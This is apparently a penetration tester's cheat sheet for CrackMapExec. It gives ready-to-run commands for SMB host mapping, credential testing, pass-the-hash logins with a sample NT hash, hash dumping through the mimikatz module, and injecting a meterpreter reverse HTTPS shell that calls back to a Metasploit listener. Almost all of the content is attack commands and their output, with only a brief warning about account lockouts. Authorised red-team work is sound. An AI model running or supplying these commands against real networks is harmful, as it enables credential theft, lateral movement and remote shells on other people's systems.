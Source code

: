 # CrackMapExec
https://github.com/byt3bl33d3r/CrackMapExec

* Tutorial - https://byt3bl33d3r.github.io/getting-the-goods-with-crackmapexec-part-1.html
* Cheatsheet -
* https://github.com/byt3bl33d3r/CrackMapExec/wiki/Using-Modules

- if win10 then you need to install cme 4.0 to dump the hashes

**IMPORTANT**
When running this or other software like this that attempts to log in, make sure you don't lock out accounts, especially DA accounts.

* Map network
```
# crackmapexec smb 445.txt
```

* Test creds
```
# crackmapexec smb 445.txt -u User -p Password
```
  + Green plus indicates user can log in, but is not local admin
  + Pwn3d! indicates local admin

* Pass the hash
```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH

# crackmapexec smb 10.55.100.0/24 -u winlab -H 5120d0cb0df939e3044c5843e37b2c5f --local --lsa
```

* Escalating with Crackmap  
  Escalate with relayed sam hashes (local auth, shared admin passwords)
		`crackmapexec smb ips.txt -u username -H hash -M mimikatz --local-auth --server-port 5678`
	Escalate with cleartext domain credentials
		`crackmapexec smb ips.txt -u username -p Password -M mimikatz --server-port 5678`


## Shells

* We can use the metinject module to directly inject meterpreter into memory using PowerSploit's Invoke-Shellcode.ps1 script.

* Set up Listener
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST 192.168.10.3
LHOST => 192.168.10.3
msf exploit(handler) > set exitonsession false
exitonsession => false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://192.168.10.3:8443
msf exploit(handler) > [*] Starting the payload handler...
```

* Start CrackMapExec
```
# crackmapexec 192.168.10.0/24 -u username -p password -M metinject -o LHOST=192.168.10.3 LPORT=8443
```
